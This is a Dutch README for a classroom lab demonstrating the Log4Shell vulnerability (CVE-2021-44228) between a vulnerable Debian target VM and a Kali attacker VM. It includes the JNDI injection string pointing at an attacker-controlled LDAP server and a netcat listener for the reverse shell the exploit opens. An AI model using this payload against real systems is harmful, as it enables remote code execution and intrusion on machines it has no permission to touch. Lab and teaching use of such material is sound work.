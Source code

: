 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Debian/Ubuntu
- Java JDK

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
./setup_target.sh
```

Bezoek de webapp op: [http://<target-ip>:8080](http://<target-ip>:8080)

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Kali Linux
- Java JDK
- Python3

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```
- jndi = een Java API waarmee je objecten kunt opzoeken
- ldap:// = het protocol
- 10.0.2.5 = IP van de aanvaller / LDAP-server
- :1389 = standaard poort voor LDAP
- /a = zoekpad of zoek-id in de LDAP-directory

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.

